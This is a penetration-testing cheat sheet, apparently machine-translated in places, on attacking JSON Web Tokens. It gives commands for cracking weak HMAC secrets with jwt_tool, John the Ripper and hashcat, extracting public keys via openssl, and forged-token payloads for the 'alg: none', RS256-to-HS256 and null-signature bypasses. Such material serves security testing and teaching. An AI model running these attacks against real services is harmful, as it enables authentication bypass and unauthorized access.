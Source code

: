 # JWT

* JWTs contain encrypted information and are signed by a key.
* In order to forge a token, one must have the correct key(s).
* Secret key for HS256 (symmetric encryption).
* Public and private keys for RS256 (asymmetric encryption).
* If the JWT configuration is not implemented correctly, then there are many ways to bypass the controls and modify the token to gain unauthorized access.

### Weak HMAC Secret used as Key

Keys signed by HMAC( alg HS256/HS384/HS512) use symmetric encryption, which means that the key that signs the token is also used to verify it. These are often signed with simple passwords.

Since signature verification is a self-contained process, the token itself can be tested for valid passwords without having to send it to the application for verification.

Decryption HMAC JWTis therefore a completely offline matter and can be performed by an attacker on a LARGE SCALE.

There are many cracking tools out there JWT, and jwt_toolit is no exception. This is useful for a quick check against known leaked password lists or default passwords.

Use Cracking mode in jwt_toolconjunction with a dictionary file to try to verify the key against all words:

```bash
python3 jwt_tool.py JWT_HERE -C -d dictionary.txt
python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LT > jwt.john
```

Another viable alternative is to use Hashcatand JohnTheRipperfor the process:

```
john -w=/usr/share/wordlists/rockyou.txt jwt.txt
python3 crackjwt.py jwt.txt /usr/share/wordlists/rockyou.txt
/opt/JohnTheRipper/run/john jwt.john


hashcat -a 0 -m 16500 jwt.txt wordlist.txt
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
```

## Finding Public Keys

To test some of the attack routes for tokens with asymmetric encryption, we may need to find the public key. There are several possible methods.

### SSL key reuse

In some cases, the token may be signed with the private key of the web server's SSL connection. Taking the public key certificate x509, and extracting this public key from SSL is quite simple:

```
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

## Known Exploits
Several vulnerabilities affecting various libraries have been reported and disclosed JWT.

It is interesting to note that all of these affect the token by manipulating the header values. This is mainly because the header controls how or what a token is signed with. Attacks on target values ​​in the payload section are likely to be platform/service specific, rather than library specific.

It's also worth noting at this point that (in the absence of extremely verbose errors) you're unlikely to know which library JWT, let alone which version of that library, is signing tokens on a given service. For this reason, when testing the JWT, our best option is to try all the tricks and see if anything works.

### Algorithm 'none' (CVE-2015-9235)

This attack targets an option in the standard JWTto produce unsigned keys. The output literally omits any part of the signature after the second period.

Due to weaknesses in some libraries or server configurations, a service can read our altered request, see that it doesn't need to be signed, and then just reliably accept it.

Example:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJsb2dpbiI6InRpY2FycGkifQ.
```

Deconstructed:

```
{"typ": "JWT", "alg": "none" }.
{"login": "ticarpi"}.
[¡Sin firma!]
```

Set "alg": "none"unsigned, but don't change the payload. Is the page still valid? If the page is valid, then it is bypassed, and tampering begins.

```
$ python3 jwt_tool.py JWT_HERE -X a
```

### Algorithm Change RS256 to HS256

RS256you need a private key to manipulate the data and a public key to verify the authenticity of the signature.

Switching RS256to HS256 forces the app to use only one key to perform both tasks.

This way the workflow would convert from asymmetric to symmetric encryption and now we can sign the new tokens with the same public key.

You MUST get the key Public-Keyfor this attack:

```
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
python3 jwt_tool.py <JWT> -S hs256 -k public.pem
```

### Firma Nula (CVE-2020-28042)

This attack targets a logic error in vulnerable libraries that do not process the signature verification, when it is zero length.

Like the attack "alg: none", the output omits any part of the signature after the second period, although in this case the algorithm in the header is not changed.

Example:

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.```

Deconstructed:

```
{"typ": "JWT", "alg": "HS256" }.
{"login": "ticarpi"}.
[¡Sin firma!]
```

Remove the signature from the end of the token. If it's vulnerable, the app won't be able to check the signature, since it doesn't see anything that needs to be checked.

```$ python3 jwt_tool.py JWT_HERE -X n```

If the result of the page is valid, then it is bypassed and should proceed with tampering.




